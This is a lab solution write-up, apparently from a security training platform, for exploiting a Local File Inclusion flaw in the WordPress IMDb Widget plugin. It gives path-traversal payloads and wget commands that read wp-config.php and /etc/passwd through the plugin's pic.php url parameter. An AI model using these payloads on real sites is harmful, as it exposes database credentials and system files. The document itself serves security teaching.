









<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">WordPress IMDb Widget </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=482>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Real World Webapps : Local File Inclusion </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

**Step 1:** Inspect the web application. ![ref1]

**Step 2:** Search on google “WordPress IMDb Profile Widget Plugin local file inclusion” and look for publically available exploits.**  

The exploit db link contains the LFI payload and the information regarding the vulnerable web page. 

**Exploit DB Link: <https://www.exploit-db.com/exploits/39621>** ![ref1]

**Step 3:** Using the information provided at exploit db link, form the target URL and navigate to it.  **Vulnerable Webpage:**  /wp-content/plugins/imdb-widget/pic.php 

**Vulnerable Parameter:** url 

**Payload:** ../../../wp-config.php 

**Target URL: ![ref1]**http://43hrtil2hlr9bporchj5ki3ay.asia.attackdefenselabs.com/wp-content/plugins/imdb-widget/pic. php?url=../../../wp-config.php 

The included PHP script is rendered as an image. 

**Step 4:** Download the file using wget and view its content. Download the file and save it as “output” 

**Command:** wget "http://43hrtil2hlr9bporchj5ki3ay.asia.attackdefenselabs.com/wp-content/plugins/imdb-widget/pic .php?url=../../../wp-config.php" -O output ![ref1]

View the content of “output” file. **Command:** cat output ![ref1]

The content of “wp-config.php” script was retrieved. 

**Step 5:** Modify the payload used in previous step and retrieve the content of “/etc/passwd” file. **Payload:** ../../../../../../../etc/passwd 

**Command:** 

wget "http://43hrtil2hlr9bporchj5ki3ay.asia.attackdefenselabs.com/wp-content/plugins/imdb-widget/pic .php?url=../../../../../../../etc/passwd" -O output 

View the content of “output” file. ![ref1]**Command:** cat output 

The content of “/etc/passwd” file was retrieved. **References:**  

1. imdb-widget (<https://wordpress.org/plugins/imdb-widget/>)  ![ref1]
1. WordPress Plugin IMDb Profile Widget 1.0.8 - Local File Inclusion (<https://www.exploit-db.com/exploits/39621>)  

[ref1]: Aspose.Words.7762fa74-ff9e-45d1-a9de-c043790725f3.003.png
